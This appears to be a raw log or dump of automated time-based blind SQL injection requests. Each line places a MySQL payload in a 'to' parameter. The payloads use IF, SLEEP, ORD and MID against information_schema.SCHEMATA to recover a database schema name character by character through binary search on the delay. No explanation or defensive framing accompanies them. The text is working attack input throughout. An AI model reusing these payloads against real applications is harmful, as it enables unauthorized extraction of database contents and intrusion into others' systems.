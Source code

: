 {to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=108,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>108,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=110,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=80,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>80,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=88,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>88,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=92,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>92,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=94,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>94,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,12,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=95,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=120,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>120,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=116,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>116,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=114,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>114,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,13,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=115,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,14,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=64,SLEEP(0.155797244898),SLEEP(0))}